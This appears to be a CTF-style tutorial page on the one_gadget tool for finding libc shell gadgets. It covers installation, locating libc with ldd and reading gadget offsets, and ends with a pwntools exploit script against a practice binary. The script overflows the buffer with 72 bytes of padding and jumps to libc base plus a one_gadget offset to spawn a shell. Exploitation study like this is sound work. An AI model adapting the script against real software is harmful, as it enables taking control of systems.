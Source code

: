 ```yaml
---
description: 08/25/2023
---
```


# ONE\_GADGET

{% embed url="https://github.com/david942j/one_gadget" %}

## Installation

Install `ruby-rubygems` if you don't already have it:

```
sudo apt install ruby-rubygems
```

Install `one_gadget`:

```
gem install one_gadget
```

## Usage

Find `libc` library:

```
ldd <binary>

 linux-vdso.so.1 (0x00007ffd3f71f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7029d40000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7029f74000)
```

`libc` library:

```
/lib/x86_64-linux-gnu/libc.so.6
```

Using one\_gadget:

```
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We end up getting a few offsets to work with</p></figcaption></figure>

So, `libc base + offset`

This will be enough to get a shell under certain restraints.

You can take a look in the registers at the time of execution in `gdb` and see if the restraints are met and if not, you will not have success.

This script will help you with this, you will see the `libc` location and the offset being added to it of the gadget:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401179
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# POP RDI gadget (found with ropper)
ret = 0x401016
pop_rdi = 0x40120b

# How many bytes to the instruction pointer (RIP)?
padding = 72

# Payload to spawn shell
payload = flat(
    asm('nop') * padding,
    libc.address + 0xebcf8
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

You can see `libc.address + offset`.

